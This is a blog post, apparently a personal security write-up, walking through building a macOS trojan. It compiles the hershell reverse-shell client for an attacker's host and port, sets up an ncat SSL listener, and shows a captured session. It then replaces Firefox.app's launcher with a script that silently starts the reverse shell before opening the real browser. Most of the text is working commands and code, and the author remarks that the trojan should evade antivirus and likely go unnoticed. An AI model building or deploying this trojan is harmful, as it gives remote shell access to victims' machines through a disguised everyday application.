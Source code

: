 ```yaml
---
title: 'Building a MacOS Trojan'
layout: post
permalink: building-mac-trojan
tags: [ mac, cybersecurity ]
---
```


This article will outline a simple method I used for building and deploying malware on MacOS. I wanted to do this to prepare for reading Patrick Wardle's book [The Art of Mac Malware](https://taomm.org/).

## Setting up the Reverse Shell:

A simple reverse shell will serve as the base malicious payload that will be executed on the victim machine. I like this method because it is extremely simple and should evade antivirus.

I'm going to use [hershell](https://github.com/lesnuages/hershell), a very simple, cross-platform reverse shell client written in Go. I'll compile the client and server on an Arch Linux machine.

### Setup Hershell:

```bash
pacman -Sy --noconfirm go
```

Since I don't need the go environment to persist on my server, let's set the `GOPATH` variable to `/tmp/go` and grab hershell:

```bash
export GOPATH=/tmp/go
go get github.com/lesnuages/hershell
go get github.com/lesnuages/hershell/shell
```

### Compile Hershell for MacOS Victim:

Now prepare and compile hershell for the MacOS victim (change the `LHOST` and `LPORT` variables to your attacking machine/server):

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

make macos64 LHOST=192.168.1.50 LPORT=5000
```

The MacOS binary for the victim machine should now be available at `/tmp/go/src/github.com/lesnuages/hershell/hershell`:

```bash
❯ file /tmp/go/src/github.com/lesnuages/hershell/hershell
/tmp/go/src/github.com/lesnuages/hershell/hershell: Mach-O 64-bit x86_64 executable
```

### Setup the Malicious Listener on Server:

Generate the server certificate for hershell and install nmap so that we can use `ncat` as the listener on the attacking server:

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

pacman -Sy --noconfirm nmap
```

Then run the listener on the attacking machine:

```bash
ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
```

This is what it looks like when a session is established:

```bash
❯ ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::5000
Ncat: Listening on 0.0.0.0:5000
Ncat: Connection from 192.168.1.2.
Ncat: Connection from 192.168.1.2:52866.
[hershell]> whoami
heywoodlh
[hershell]> echo $HOSTNAME
unix-machine
```


## Trojanize an Application:

I'm going to trojanize Firefox since I use Firefox a ton. This method is super simplistic, but it gets the job done. And most likely, it wouldn't be detected unless a user was vigilant.

I'm going to perform the following commands on a Mac with Firefox already installed. You could replace Firefox with another application if you wanted to.

Copy Firefox.app:

```bash
cp -r /Applications/Firefox.app /tmp/Firefox-trojan.app
```

Place the `hershell` binary that you created on the attacking server in `/tmp/Firefox-trojan.app/Contents/MacOS`.

Rename the original Firefox binary file:

```bash
cd /tmp/Firefox-trojan.app/Contents/MacOS
mv firefox firefox.orig
```

Now create a shell script in place of the `firefox` binary that will run hershell and then will run the original `firefox` binary:

```bash
touch firefox
chmod +x firefox
```

Then add the following content to the new `firefox` file:

```bash
#!/usr/bin/env bash

full_path=$(dirname $(realpath $0))

/usr/bin/screen -dmS reverse-shell ${full_path}/hershell

${full_path}/firefox-bin
```

This method will use the `screen` command to run hershell in the background with a session name of `reverse-shell`. This method is not discrete at all, but I don't really care in this case.


## Profit:

When the Firefox-trojan.app is opened, it should attempt to create a reverse shell with the attacking server that is listening for a connection.

![alt text](../images/trojan-firefox.png "Trojanized Firefox")

